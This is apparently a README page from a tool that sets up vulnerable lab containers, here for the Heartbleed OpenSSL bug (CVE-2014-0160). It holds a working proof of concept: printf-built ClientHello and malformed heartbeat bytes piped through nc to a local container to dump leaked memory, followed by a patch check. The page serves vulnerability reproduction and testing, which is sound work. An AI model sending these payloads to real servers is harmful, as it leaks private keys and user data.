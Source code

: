 # CVE-2014-0160 (Heartbleed)

### Description
The (1) TLS and (2) DTLS implementations in OpenSSL 1.0.1 before 1.0.1g do not properly handle Heartbeat Extension packets, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the Heartbleed bug.


### Command to run
```shell
python decret.py --number 2014-0160 --release bullseye --directory heartbleed --selenium
```

### Simple testing method
In the container :
```shell
openssl req -x509 -newkey rsa:2048 -out cert.pem -keyout key.pem -keyform PEM -outform PEM -nodes
openssl s_server -cert cert.pem -key key.pem
```
Then, on the host : 
```shell
( printf "\x16\x03\x01\x00\x38\x01\x00\x00\x34\x03\x01"
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x06\x00\x05\x00\x35\x00\x39\x01\x00"
printf "\x00\x05\x00\x0f\x00\x01\x01" ) > chello.bin

printf "\x18\x03\x01\x00\x03\x01\xff\xff" > hb.bin

(cat chello.bin; sleep 3; cat hb.bin) | nc CONTAINER_IP_ADDRESS 4433 | hexdump -C
```
The default IP address should be 172.17.0.2 .  
We observe that a lot of data thus it is vulnerable. 

If openssl is then updated in the container : 
```shell
apt-get install openssl
```
And the exploit is tested again, only a few bytes are sent back. The vulnerability is fixed.